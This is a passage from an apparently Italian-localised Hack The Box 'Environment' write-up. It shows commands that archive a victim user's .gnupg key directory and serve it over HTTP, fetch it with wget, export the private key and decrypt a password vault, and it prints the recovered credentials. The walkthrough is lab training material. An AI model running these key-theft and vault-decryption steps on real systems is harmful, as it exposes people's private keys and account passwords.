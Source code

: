 2. Now we need to compress the directory and do the same process:

```bash
www-data@environment:/home/hish$ tar -czf /tmp/gnupg /home/hish/.gnupg/
tar: Removing leading `/ from member names
www-data@environment:/home/hish$ ls /tmp
gnupg
www-data@environment:/home/hish$ cd /tmp
www-data@environment:/tmp$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Environment]
└─$ wget http://environment.htb:8080/gnupg
--2025-09-05 16:48:11--  http://environment.htb:8080/gnupg
Risoluzione di environment.htb (environment.htb)... 10.10.11.67
Connessione a environment.htb (environment.htb)|10.10.11.67|:8080... connesso.
Richiesta HTTP inviata, in attesa di risposta... 200 OK
Lunghezza: 6115 (6,0K) [application/octet-stream]
Salvataggio in: «gnupg»

gnupg                    100%[==================================>]   5,97K  --.-KB/s    in 0s  

┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Environment]
└─$ ls
gnupg  keyvault.gpg  shell.php.  user.txt
```

Now we can extract:

```bash
tar -xzf gnupg 
```

3. We need to decrypt the backup using `gpg`:

```bash
gpg --homedir ./gnupg --list-keys
gpg --homedir ./gnupg --list-secret-keys
gpg --homedir ./gnupg --export-secret-keys -a > private_key.asc
gpg --import private_key.asc

## Final step
┌──(mdn0x㉿mdn0xKali)-[~/…/Machines/Environment/home/hish]
└─$ gpg --decrypt gnupg/keyvault.gpg 
gpg: crittografato con rsa2048 chiave, ID B755B0EDD6CFCFD3, creato 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> {{REDACTED_PASSWD}}
FACEBOOK.COM -> summerSunnyB3ACH!!
```
### SSH

We can access [SSH](../../../3%20-%20Tags/Hacking%20Concepts/SSH.md) with the found password:
